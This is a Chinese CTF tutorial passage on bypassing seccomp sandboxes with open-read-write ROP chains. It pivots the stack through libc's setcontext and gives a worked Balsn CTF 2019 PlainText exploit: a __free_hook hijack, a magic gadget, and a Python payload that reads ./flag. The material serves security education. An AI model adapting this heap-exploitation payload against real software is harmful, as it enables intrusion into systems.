 # C 沙盒逃逸
## orw

有些时候 pwn 题目中为了增加难度，会使用类似 [seccomp](https://en.wikipedia.org/wiki/Seccomp) 的函数来禁用一部分系统调用，往往会把 execve 这种系统调用禁用掉，基本上拿 shell 是不可能了，但是我们 pwn 题是面向 flag 的，所以还是可以通过 orw（ open-read-write ）的方法来读出 flag 的。在栈上的 orw 和 普通 rop 其实没有什么特别大的区别，这里主要谈一谈堆利用中的白名单绕过。

一般来说，开启了白名单的堆利用类题，我们会在劫持了某钩子函数如 __free_hook 或 got 表之后考虑实现 orw，这个时候我们只可以注入一个 gadget，一般来说我们希望这个 gadget 能够实现栈迁移，一种比较通用的做法是利用 setcontext 函数，其在 libc-2.29 中实现为

```
.text:0000000000055E00 ; __unwind {
.text:0000000000055E00                 push    rdi
.text:0000000000055E01                 lea     rsi, [rdi+128h] ; nset
.text:0000000000055E08                 xor     edx, edx        ; oset
.text:0000000000055E0A                 mov     edi, 2          ; how
.text:0000000000055E0F                 mov     r10d, 8         ; sigsetsize
.text:0000000000055E15                 mov     eax, 0Eh
.text:0000000000055E1A                 syscall                 ; LINUX - sys_rt_sigprocmask
.text:0000000000055E1C                 pop     rdx
.text:0000000000055E1D                 cmp     rax, 0FFFFFFFFFFFFF001h
.text:0000000000055E23                 jnb     short loc_55E80
.text:0000000000055E25                 mov     rcx, [rdx+0E0h]
.text:0000000000055E2C                 fldenv  byte ptr [rcx]
.text:0000000000055E2E                 ldmxcsr dword ptr [rdx+1C0h]
.text:0000000000055E35                 mov     rsp, [rdx+0A0h]
.text:0000000000055E3C                 mov     rbx, [rdx+80h]
.text:0000000000055E43                 mov     rbp, [rdx+78h]
.text:0000000000055E47                 mov     r12, [rdx+48h]
.text:0000000000055E4B                 mov     r13, [rdx+50h]
.text:0000000000055E4F                 mov     r14, [rdx+58h]
.text:0000000000055E53                 mov     r15, [rdx+60h]
.text:0000000000055E57                 mov     rcx, [rdx+0A8h]
.text:0000000000055E5E                 push    rcx
.text:0000000000055E5F                 mov     rsi, [rdx+70h]
.text:0000000000055E63                 mov     rdi, [rdx+68h]
.text:0000000000055E67                 mov     rcx, [rdx+98h]
.text:0000000000055E6E                 mov     r8, [rdx+28h]
.text:0000000000055E72                 mov     r9, [rdx+30h]
.text:0000000000055E76                 mov     rdx, [rdx+88h]
.text:0000000000055E76 ; } // starts at 55E00
```

当然其他版本也大同小异，可见在这个函数中有对 rsp 的赋值，如果我们可以控制 rdx，就可以控制 rsp 实现栈迁移了。

### 例题
#### Balsn_CTF_2019-PlainText
##### 分析
在 orw 之前的利用这里不再赘述，请见《Glibc Heap 利用》目录下的《堆中的 Off-By-One》中对此题的分析
比较讨厌的是，在 libc-2.29 下，free 函数不会再将 rdi 赋值给 rdx，我们无法直接控制 rdx，仅能控制 rdi，幸好比较巧合的，在本题的 libc 中有这样一个 gadget

```
0x12be97: mov rdx, qword ptr [rdi + 8]; mov rax, qword ptr [rdi]; mov rdi, rdx; jmp rax;
```

通过使用这个 gadget 之后改变 rdx，ret 到 setcontext 之后就可以 rop 了（这个 chunk 无法通过 ROPgadget 找出，需要使用 ropper）。
##### exploit
这里只给出 payload
```python
## alloc to __free_hook ##
magic_gadget = libc_base + 0x12be97
add(0x28,p64(magic_gadget)) # 73

pop_rdi_ret = libc_base + 0x26542
pop_rsi_ret = libc_base + 0x26f9e
pop_rdx_ret = libc_base + 0x12bda6
syscall_ret = libc_base + 0xcf6c5
pop_rax_ret = libc_base + 0x47cf8
ret = libc_base + 0xc18ff

payload_addr = heap_base + 0x270
str_flag_addr = heap_base + 0x270 + 5 * 0x8 + 0xB8
rw_addr = heap_base 

payload = p64(libc_base + 0x55E35) # rax
payload += p64(payload_addr - 0xA0 + 0x10) # rdx
payload += p64(payload_addr + 0x28)
payload += p64(ret)
payload += ''.ljust(0x8,'\x00')

rop_chain = ''
rop_chain += p64(pop_rdi_ret) + p64(str_flag_addr) # name = "./flag"
rop_chain += p64(pop_rsi_ret) + p64(0)
rop_chain += p64(pop_rdx_ret) + p64(0)
rop_chain += p64(pop_rax_ret) + p64(2) + p64(syscall_ret) # sys_open
rop_chain += p64(pop_rdi_ret) + p64(3) # fd = 3
rop_chain += p64(pop_rsi_ret) + p64(rw_addr) # buf
rop_chain += p64(pop_rdx_ret) + p64(0x100) # len
rop_chain += p64(libc_base + libc.symbols["read"])
rop_chain += p64(pop_rdi_ret) + p64(1) # fd = 1
rop_chain += p64(pop_rsi_ret) + p64(rw_addr) # buf
rop_chain += p64(pop_rdx_ret) + p64(0x100) # len
rop_chain += p64(libc_base + libc.symbols["write"])

payload += rop_chain
payload += './flag\x00'
add(len(payload) + 0x10,payload) # 74
#gdb.attach(proc.pidof(sh)[0])
delete(74)

sh.interactive()
```
